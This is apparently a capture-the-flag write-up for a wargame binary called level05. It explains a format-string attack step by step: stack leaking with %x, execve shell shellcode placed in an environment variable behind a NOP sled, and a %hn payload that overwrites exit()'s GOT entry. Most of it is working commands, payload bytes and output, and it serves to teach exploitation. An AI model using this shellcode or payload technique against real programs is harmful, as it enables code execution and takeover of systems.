 # level05
RELRO protection is disable. My presumption is that we will have to overwrite the __Global Offset Table (GOT)__

## Step 1: Understand the program
1. The program reads 100 bytes and store it in a buffer of 100 byteswith `fgets()`: __No segfault__
2. The program iterates over the buffer, and convert uppercase to lowercase: __Useless__
3. The program prints the raw buffer with an unprotected printf. __This is a format string vulnerablity__
4. finally, the program exits with `exit(0)`


## Goal

__Replace the `exit()` relocation address in the GOT to target a shellcode instead (thanks to the `%n` specifier)__


## Step 2: Leak the stack
Leak the stack to find somethings interesting

```bash
$ ./level05 
aaaa %x %x %x %x %x %x %x %x %x %x %x %x
```
```console
aaaa 64 f7fcfac0 f7ec3af9 ffffd6ef ffffd6ee 0 ffffffff ffffd774 f7fdb000 61616161 20782520 25207825
```

Yeah ! We have access to the buffer through the __10th__ specifer `%x`

## Step 3: Shellcode
### Export shellcode in env
```bash
export SHELLCODE=`python -c 'print "\x90" * 100 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'`
```

shellcode given [here](https://shell-storm.org/shellcode/files/shellcode-752.html) (21 bytes long)

### Locate shellcode in the memory

```bash
(gdb) x/20s *((char **)environ)
```
```console
0xffffd871:	 "SHELLCODE=\220\220[...]\220\220\061\311\367\341Qh//shh/bin\211\343\260\v̀"
```

shellcode is at `0xffffd871`. It begin by 100 NOOPs  

__`0xffffd871` = 4294957169__

## Step 4 : Find `exit()` in the GOT


Find the __GOT__ entry of `exit()`
```bash
readelf -r level05 | grep exit
```
```console
080497e0  00000407 R_386_JUMP_SLOT   00000000   exit
```

The address of `exit()` is stored at `0x080497e0` in the __GOT__


## Exploit

1. Write the `exit()` entry point address in the buffer
2. Access to the buffer with the 10th specifier
3. Overwrite the content stored at the address specified in the buffer by the address of our shellcode using `%n` (`%n` take a pointer to int32).


```bash
(python -c 'print "\x08\x04\x97\xe0"[::-1] + "%4294957165d" + "%10$n"'; cat) | /home/users/level05/level05
```

4294957165 = 4294957169 - 4 --> (4 = characters already printed)

It doesn't work because `4294957165` is too much


### Necessary to optimize

We want to write `0xffffd871` at `0x080497e0`, That is to write 4 bytes at `0x080497e0`  

### Solution
We can write two bytes at a time:
- `0xd871` at `0x080497e0`
- `0xffff` at `0x080497e2`


```bash
(python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55401d" + "%10$hn" + "%10126d" + "%11$hn" '; cat) | /home/users/level05/level05
```
- 55401 = 0xd871 - 8 ----------> (8 = characters already printed)
- 10126 = 0xffff - 55401 - 8 --> (55401 + 8 = characters already printed)

`%hn` is used to write 2 bytes at a time


> `%hn`: 'h' means short int. So it specified a pointer on  `int16` (2 bytes) instead of a pointer on `int32`  
> It is also possible to jump in the middle of the NOOPs